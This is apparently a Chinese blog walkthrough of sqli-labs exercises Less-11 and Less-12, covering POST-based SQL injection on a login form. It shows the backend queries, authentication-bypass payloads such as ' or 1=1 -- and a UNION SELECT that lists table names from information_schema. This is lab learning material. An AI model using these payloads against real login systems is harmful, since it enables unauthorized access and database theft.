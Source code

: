 ```yaml
---
layout: post
title: SQL注入（八）
desc: ""
keywords: ""
date: 2016-11-01
categories: []
tags: []
---
```


<blockquote>
  薯片果然还是要乐事原味
</blockquote>

<h2>Less-11</h2>

刷完了Get型注入，于是我们来到了Post型注入

Post型注入的一个特点就是不会再URL栏看到任何的参数，他的数据传递是包含在HTTP报文里的，于是我们能通过Burp抓包去获取这些数据，进行注入

这时候又能祭出神器Hackbar，勾上Enable Post data，我们就能继续注入了

<h3>特点</h3>

一上来就看到了一个登陆框，啊万恶的登陆框…

将Username和Password均填入123，抓包情况如下：

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_burp.png" />

登陆失败时显示的是Login Attempt Failed

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_error_%2527.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_error_%2527.png" />

查看了一下后台的语句，发现是

<pre class="lang:tsql decode:true" title="SQL">SELECT username, password FROM users WHERE username='$uname' and password='$passwd'
LIMIT 0,1</pre>

<h3>注入检测</h3>

在用户名后面输入了一个单引号，发现报错

大概能猜出是以单引号闭合的

<h3>Payload</h3>

其实之前说的万能密码也是一个原理，都是通过合并构造恒为真的语句并且注释掉后面的语句，来实现无密码登陆

经过测试，发现了一些有趣的细节……

<pre class="lang:tsql decode:true" title="Test Payload">uname=123' or 1=1--&amp;passwd=123&amp;submit=Submit // 错误
uname=123' or 1=1 -- &amp;passwd=&amp;submit=Submit // 正确
uname=123' or 1=1 # &amp;passwd=123&amp;submit=Submit // 正确
uname=123' or 1=1 #&amp;passwd=123&amp;submit=Submit // 正确</pre>

哦？哦？看来注释和后面语句是要加个空格的对吧 = =

查询表名

<pre class="lang:tsql decode:true" title="Payload">uname=123%27 union select 1, table_name from information_schema.tables 
where table_schema=database() -- &amp;passwd=&amp;submit=Submit</pre>

<img src="http://oc42vgpoj.bkt.clouddn.com/less11_table_name.png" />

后面同理了，省略。

<h2>Less-12</h2>

道理和Less-11一样，不过这次是双引号和括号闭合的

<h3>语句猜测</h3>

这个就很明确了，直接在用户名输入123"，报错如下：

<img src="http://oc42vgpoj.bkt.clouddn.com/less12_error.png" />

很明显语句应该是类似

<pre class="lang:tsql decode:true  " title="SQL">SELECT username, password FROM users WHERE username=("$uname") and 
password=("$passwd") LIMIT 0,1</pre>

<h3>Payload</h3>

不用讲了吧，闭合好就行了